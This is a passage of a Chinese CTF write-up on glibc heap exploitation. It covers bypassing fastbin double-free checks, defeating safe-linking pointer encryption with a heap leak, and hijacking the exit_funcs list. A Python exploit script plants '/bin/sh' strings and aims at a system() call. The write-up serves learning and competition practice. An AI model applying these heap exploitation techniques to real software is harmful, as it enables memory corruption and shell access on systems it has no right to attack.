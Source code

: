- 首先是在fastbin上构造出两个以上的chunk 然后free第二个chunk 来绕过fastbin中检查double free的机制（fastbin会检查你free的是否为第一个chunk）

  ```python
  if (__builtin_expect(old == p, 0))
  	malloc_printerr("double free or corruption (fasttop)");
  p->fd = PROTECT_PTR(&p->fd, old);
  *fb = p;
  ```

![image-20240420123457567](https://awaqwqa.github.io/img/xyctf/image-20240420123457567.png)

- 然后将利用开始构造好的fakechunk进行free

  ```python
  delete(5)
  ```

  ![image-20240420123602766](https://awaqwqa.github.io/img/xyctf/image-20240420123602766.png)

##### fd加密机制

> glibc高版本加入的fd加密机制 让我们没办法直接覆盖fd 绕过也很简单泄露heap地址即可

- fd需要是heap基地址^目标地址

#### 劫持exit_funcs链表

> 最难崩的一步 因为我们需要劫持这个链表所以我们需要再一次触发fastbin的合并构造double free 然后指向exit_func处 进行覆写
>
> 本地打这个感觉还行 但是打远程的时候我脚本足足要跑20分钟 并且还因为比赛方平台网络不是特别好 导致我反复失败 最终跑了一晚上才跑出来

- 难点
  - 因为上一次double free 导致tcache 中一条链已经存在一个无效的chunk地址(大概率不对齐) 所以我们下一次double free的时候就不能选择这个size大小的链了

```python
# size: 0x20c30
for i in range(758):
    add(14,128,b"a"*8)
for i in range(11):
    add(i,0x18,b"a"*8)
add_with_no_chunk(14)
for i in range(11):
    delete(i)
# 将topchunk消耗空触发合并
add(14,0x68,b"a"*8)

# 指定free index 6 可以实现任意free
# free_chunk就是后续构造double free的chunk地址
free_chunk = base_heap+271376+0x10
add(14,128,b"a"*8*4+p64(0)+p64(0x31)+p64(0x100)+p64(1)+p64(free_chunk))
# 填写binsh只是为了后续调用system函数的时候可以找个地址来当作参数
for i in range(6):
    add(i,0x68,b"/bin/sh\x00")
for i in range(7,13):
    add(i,0x68,b"/bin/sh\x00")
for i in range(6):
    delete(i)
for i in range(7,13):
    delete(i)
# 触发double free
delete(6)
for i in range(7):
    add(i,0x68,b"a"*8)
# 将fd指向exit_function地址处
add(i,0x68,p64((xor+0x21)^exit_function))
add(0,0x68,b"a"*8)
add(0,0x68,b"/bin/sh\x00")
res = getData(res)
```